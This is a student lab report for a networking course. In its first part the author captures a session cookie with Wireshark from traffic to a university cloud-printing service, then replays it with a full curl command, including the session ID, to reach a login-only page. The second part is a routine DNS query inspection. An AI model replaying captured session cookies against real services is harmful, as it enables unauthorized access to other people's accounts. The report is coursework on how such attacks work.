




# CS305B Lab5 Report

*11812418 樊青远 Fan Qingyuan*

## ASSIGNMENT 5.1 SESSION HIJACK

### Capture session cookie

We first use the wireshark to capture the traffic, then we apply the filter `http.request.uri contains "client/new/cprintPc/printDev.html"` to find the corresponding request contain the path of "printer device" (which is `http://pms.sustech.edu.cn/client/new/cprintPc/printDev.html`).



We can view the cookie of the reques in the wireshark panel.

### Replay HTTP request

We replay the request with the following `curl` command:

```shell
curl 'http://pms.sustech.edu.cn/client/new/cprintPc/printDev.html' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://pms.sustech.edu.cn/client/new/cprintPc/help.html' \
  -H 'Accept-Language: zh-CN,zh-HK;q=0.9,zh-TW;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5' \
  -H 'Cookie: setlogin=password; set_change_password=1; set_show_langbtn=1; set_print_color=black%2Ccolorful; set_uniprint_changpassword_api=1; set_mobile_index_school_link=http%3A//zjut.cprint.unifound.net; OSESSIONID=b50ee7f1570749bab2047e785a55554d' \
  --compressed \
  --insecure
```

the result was:

```html
*   Trying 172.18.1.141:80...
* Connected to pms.sustech.edu.cn (172.18.1.141) port 80 (#0)
> GET /client/new/cprintPc/printDev.html HTTP/1.1
> Host: pms.sustech.edu.cn
> Accept-Encoding: deflate, gzip
> Connection: keep-alive
> Upgrade-Insecure-Requests: 1
> DNT: 1
> User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
> Referer: http://pms.sustech.edu.cn/client/new/cprintPc/help.html
> Accept-Language: zh-CN,zh-HK;q=0.9,zh-TW;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5
> Cookie: setlogin=password; set_change_password=1; set_show_langbtn=1; set_print_color=black%2Ccolorful; set_uniprint_changpassword_api=1; set_mobile_index_school_link=http%3A//zjut.cprint.unifound.net; OSESSIONID=b50ee7f1570749bab2047e785a55554d
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.15.6
< Date: Wed, 17 Mar 2021 13:08:45 GMT
< Content-Type: text/html
< Content-Length: 4937
< Connection: keep-alive
< Last-Modified: Thu, 29 Aug 2019 13:26:10 GMT
< ETag: "1d55e2a44035649"
< 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta http-equiv="X-UA-Compatible" content="IE=Edge"/>
    <meta charset="UTF-8"/>
    <meta name="description" content=""/>
    <meta name="keywords" content="云打印,打印,自助打印,联创自助打印,打印驱动"/>
    <meta name="viewport" content="width=1226"/>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="shortcut icon" href="./favicon.ico" type="image/x-icon"/>
    <meta http-equiv="Cache-Control" content="no-transform "/>
    <meta http-equiv="Cache-Control" content="no-siteapp"/>
    <script type="text/javascript">
        document.write("<link rel='stylesheet' type='text/css' href='./css/base.css?_v=" + Math.random() + "' />");
        document.write("<link rel='stylesheet' type='text/css' href='./css/public.css?_v=" + Math.random() + "' />");
        document.write("<link rel='stylesheet' type='text/css' href='./css/printDev.css?_v=" + Math.random() + "' />");
    </script>
    <title>联创云打印</title>
    <!--[if lt IE 10]>
    <script src="./lib/css3-mediaqueries.js"></script>
    <script src="./lib/html5.js"></script>
    <![endif]-->
</head>
<body>
<div id="printDev" class="wrap">
    <div class="main relative">
        <div class="container">
            <ul id="devul" class="devlist fs18">
                <li class="clearfix relative">
                    <h4 class="fl break1">名称</h4>
                    <div class="fl paperwrap">
                        <!--<span class="" data-id="640016">纸张</span>-->
                        <span class="" data-id="">纸张</span>
                    </div>
                    <div class="fl gongwrap">
                        <span class="" data-id="640066">功能</span>:
                    </div>
                    <div class="fr statewrap state2 idQuery">状态</div>
                </li>
                <script type="text/html" id="devlist-template">
                    {{each result}}
                    <li class="clearfix relative">
                        <!--<i class="icon_address"></i>-->
                        <h4 class="fl break1" title="{{$value.szName}}">{{$value.szName}}</h4>
                        <div class="fl paperwrap">
                            {{$value.x_papers}}
                        </div>
                        <div class="fl gongwrap">
                            {{if $value.x_gong.indexOf("1")!=-1}}
                            <span class="idQuery" data-id="640009">打印</span>,
                            {{/if}}
                            {{if $value.x_gong.indexOf("2")!=-1}}
                            <span class="idQuery" data-id="640011">复印</span>,
                            {{/if}}
                            {{if $value.x_gong.indexOf("4")!=-1}}
                            <span class="idQuery" data-id="640010">扫描</span>,
                            {{/if}}
                            {{if $value.x_gong.indexOf("8")!=-1}}
                            <span class="idQuery" data-id="640067">支持彩色</span>
                            {{/if}}
                            <!--功能: 扫描、打印、复印、支持彩色-->
                        </div>

                        {{if $value.x_state_flag==1}}
                        <div class="fr statewrap state3 idQuery" data-id="640070">忙碌</div>
                        {{else if $value.x_state_flag==2}}
                        <div class="fr statewrap state1 idQuery" data-id="640068">空闲</div>
                        {{else if $value.x_state_flag==3}}
                        <div class="fr statewrap state2 idQuery" data-id="640069">不可用</div>
                        {{/if}}
                    </li>
                    {{/each}}
                </script>
            </ul>
            <div id="nolist_js" class="nolistwrap hide">
                <div class="nolist">
                    <i class="icon_nodev"></i>
                    <span class="idQuery" data-id="640090">没有可打印点</span>
                </div>
            </div>
            <div class="loading"></div>
        </div>
    </div>
</div>
<div class="footer"></div>
<div class="all-loading1"></div>
</body>
<script src="./lib/jquery.min.js"></script>
<script src="./lib/template.js"></script>
<script src="./lib/json2.js"></script>
<script type="text/javascript">
    document.write("<script type='text/javascript' src='../setconfig.js?v=" + Math.random() + "'><\/script>");
    document.write("<script type='text/javascript' src='./js/host.js?v=" + Math.random() + "'><\/script>");
    document.write("<script type='text/javascript' src='./js/common.js?v=" + Math.random() + "'><\/script>");
    document.write("<script type='text/javascript' src='./js/printDev.js?v=" + Math.random() + "'><\/script>");
</script>
* Connection #0 to host pms.sustech.edu.cn left intact
</html>%                                                    
```

We could found that the using the cookie we obtained from Wireshark, we could replay the http request and get the printer of campus which needs login.

## ASSIGNMENT 5.2 DNS INSPECTION

### Capture DNS

We use the capture filter `udp port 53`  and display flag `dns.qry.name == "mirrors.sustech.edu.cn"`  to filter the DNS query result withe the domain `mirrors.sustech.edu.cn`:



#### Where did the query send?

`192.168.31.1`

#### What did the query said?

Query `A` record for `mirrors.sustech.edu.cn`



#### Does the server support recursive query?

Yes, the server `1.2.4.8` could do the recursive query.



#### What did the respond said?

```
Frame 140: 222 bytes on wire (1776 bits), 222 bytes captured (1776 bits) on interface en0, id 0
Ethernet II, Src: BeijingX_e7:cd:84 (88:c3:97:e7:cd:84), Dst: Apple_75:70:88 (38:f9:d3:75:70:88)
Internet Protocol Version 4, Src: 1.2.4.8, Dst: 192.168.31.185
User Datagram Protocol, Src Port: 53, Dst Port: 60732
Domain Name System (response)
    Transaction ID: 0x8c55
    Flags: 0x8180 Standard query response, No error
    Questions: 1
    Answer RRs: 1
    Authority RRs: 2
    Additional RRs: 4
    Queries
        mirrors.sustech.edu.cn: type A, class IN
            Name: mirrors.sustech.edu.cn
            [Name Length: 22]
            [Label Count: 4]
            Type: A (Host Address) (1)
            Class: IN (0x0001)
    Answers
        mirrors.sustech.edu.cn: type A, class IN, addr 116.7.234.220
    Authoritative nameservers
        sustech.edu.cn: type NS, class IN, ns ns2.sustech.edu.cn
        sustech.edu.cn: type NS, class IN, ns ns1.sustech.edu.cn
    Additional records
        ns1.sustech.edu.cn: type A, class IN, addr 110.65.147.31
        ns2.sustech.edu.cn: type A, class IN, addr 116.7.234.32
        ns1.sustech.edu.cn: type AAAA, class IN, addr 2001:da8:201d::42:92
        ns2.sustech.edu.cn: type AAAA, class IN, addr 2001:da8:201d::42:93
    [Request In: 139]
    [Time: 0.054213000 seconds]

```


